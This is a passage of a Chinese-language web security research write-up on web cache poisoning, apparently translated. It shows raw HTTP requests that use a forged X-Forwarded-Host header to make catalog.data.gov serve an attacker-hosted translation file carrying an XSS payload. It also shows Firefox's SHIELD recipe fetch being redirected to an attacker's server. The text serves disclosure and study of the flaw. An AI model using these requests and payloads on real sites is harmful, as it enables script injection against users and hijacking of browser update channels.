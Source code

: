 我们已经控制了’data-site-root’属性，但我们不能找到获得XSS的突破口，并且甚至不清楚这个属性的作用是什么。为了找到答案，我在Burp中创建了一个匹配然后替换的规则，为所有请求添加了“X-Forwarded-Host：id.burpcollaborator.net”请求头，然后浏览了该站点。当加载特定页面时，Firefox会将JavaScript生成的请求发送到我的服务器：

```
GET /api/i18n/en HTTP/1.1
Host: id.burpcollaborator.net
```

这条请求记录表明，在网站的某个地方，有一些JavaScript代码使用data-site-root的属性来确定从哪里加载一些网站语言的数据。我试图通过访https://catalog.data.gov/api/i18n/en来找出这些数据应该是什么样的，但只是收到了一个空的JSON响应。幸运的是，将’en’改为’es’的行为抛出了一丝丝线索：

```
GET /api/i18n/es HTTP/1.1
Host: catalog.data.gov

HTTP/1.1 200 OK
…
`{`"Show more":"Mostrar más"`}`
```

该文件包含用于将短语翻译为用户所选语言的映射。通过创建我们自己的翻译文件并使用指向用户的缓存投毒，我们可以将短语翻译变成漏洞利用代码（exploit）：

```
GET  /api/i18n/en HTTP/1.1
Host: portswigger-labs.net

HTTP/1.1 200 OK
...
`{`"Show more":"&lt;svg onload=alert(1)&gt;"`}`
```

这就是最终结果？任何查看包含“显示更多”文字的网页的人都会被利用。

### 劫持Mozilla SHIELD（Hijacking Mozilla SHIELD）

我配置的“X-Forwarded-Host”匹配/替换规在帮助我解决上一个漏洞利用问题的同时产生意想不到的额外效果。除了来自catalog.data.gov的交互之外，我还收到了一段非常神秘的内容：

```
GET /api/v1/recipe/signed/ HTTP/1.1
Host: xyz.burpcollaborator.net
User-Agent: Mozilla/5.0 … Firefox/57.0
Accept: application/json
origin: null
X-Forwarded-Host: xyz.burpcollaborator.net
```

[自身发出origin:null的请求头](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)情况非常的少见，我以前从未见过浏览器发出完全小写的Origin请求头。通过筛选proxy历史记录，发现罪魁祸首是Firefox本身。 Firefox会试图获取一份“recipes”列表，作为[SHIELD](https://wiki.mozilla.org/Firefox/Shield)系统的一部分，用于静默安装扩展以用于营销和研究目的。该系统曾因强行分发“Mr Robot’”扩展而闻名，[引起了用户的强烈不满](https://www.cnet.com/news/mozilla-backpedals-after-mr-robot-firefox-misstep/)。无论如何，看起来X-Forwarded-Host请求头欺骗了这个系统，将Firefox引导到我自己的网站以获取recipes：

```
GET /api/v1/ HTTP/1.1
Host: normandy.cdn.mozilla.net
X-Forwarded-Host: xyz.burpcollaborator.net

HTTP/1.1 200 OK
`{`
  "action-list": "https://xyz.burpcollaborator.net/api/v1/action/",
  "action-signed": "https://xyz.burpcollaborator.net/api/v1/action/signed/",
  "recipe-list": "https://xyz.burpcollaborator.net/api/v1/recipe/",
  "recipe-signed": "https://xyz.burpcollaborator.net/api/v1/recipe/signed/",
   …
`}`
```
